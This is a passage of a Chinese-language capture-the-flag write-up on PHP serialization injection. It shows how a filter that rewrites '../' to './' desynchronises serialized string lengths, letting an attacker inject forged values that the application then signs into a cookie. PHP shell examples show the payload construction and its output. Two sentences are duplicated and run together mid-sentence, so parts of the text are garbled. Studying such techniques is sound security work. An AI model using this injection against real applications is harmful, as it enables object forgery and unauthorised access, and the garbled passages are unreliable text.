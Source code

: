 通过过滤，确实已经将“../”改为了“./”，然而，序列化字符串的大小并没有改变。s:3:”./“;显示的字符串大小为3，然而实际上它的大小是2！

当这个损坏的对象被unserialize()处理时，PHP会将序列化对象(“)中的下一个字符视为其值的一部分：

```
a:2:`{`i:0;s:3:"./";i:1;s:5:"hello";`}`
           ^  --- &lt;== The value parsed by unserialize() is ./"

```

在这里，如果我们添加更多的../，就会有更多的字符被unserialize()在这里，如果我们添加更多的../，就会有更多的字符被unserialize()解析。

```
php &gt; $array = array();
php &gt; $array[] = "../../../../../../../../../../../../";
php &gt; $array[] = "hello";
php &gt; echo serialize($array);
a:2:`{`i:0;s:36:"../../../../../../../../../../../../";i:1;s:5:"hello";`}`

php &gt; echo str_replace("../","./", serialize($array));
a:2:`{`i:0;s:36:"././././././././././././";i:1;s:5:"hello";`}`
           ^^  ------------------------------------ &lt;=== Parsed by unserialize()

php &gt; unserialize('a:2:`{`i:0;s:36:"././././././././././././";i:1;s:5:"hello";`}`');
PHP Notice:  unserialize(): Error at offset 51 of 58 bytes in php shell code on line 1

Notice: unserialize(): Error at offset 51 of 58 bytes in php shell code on line 1
```

因此，在这一题的挑战中，我们可以借助../序列来重命名此前上传的文件，从而实现该漏洞的利用。Web应用程序会顺畅地实现重命名操作，并会对包含已损坏对象的新Cookie进行因此，在这一题的挑战中，我们可以借助../序列来重命名此前上传的文件，从而实现该漏洞的利用。Web应用程序会顺畅地实现重命名操作，并会对包含已损坏对象的新Cookie进行签名。



## 伪造任意对象并签名

现在，我们可以对损坏的序列化对象进行签名，但在此之前，我们还是要弄清楚如何利用这一漏洞来对有效的对象进行签名。

请注意，在上文的最后一个例子中，我们是通过添加多个../字符串，最终溢出了数组中的下一个对象（““hello”）。

既然我们已经能够控制hello字符串，那么我们就可以用部分序列化对象来代替hello。我们可以将它视为SQL注入问题，必须匹配两端的引号，来保证查询的有效性。

下面是一个例子：

```
php &gt; $array = array();
php &gt; $array[] = "../../../../../../../../../../../../../";
php &gt; $array[] = 'A";i:1;s:8:"Injected';
php &gt; echo serialize($array);
a:2:`{`i:0;s:39:"../../../../../../../../../../../../../";i:1;s:20:"A";i:1;s:8:"Injected";`}`

php &gt; $x = str_replace("../", "./", serialize($array));
php &gt; echo $x;
a:2:`{`i:0;s:39:"./././././././././././././";i:1;s:20:"A";i:1;s:8:"Injected";`}`
               ---------------------------------------           --------

php &gt; print_r(unserialize($x));
Array
(
    [0] =&gt; ./././././././././././././";i:1;s:20:"A
    [1] =&gt; Injected
)
```
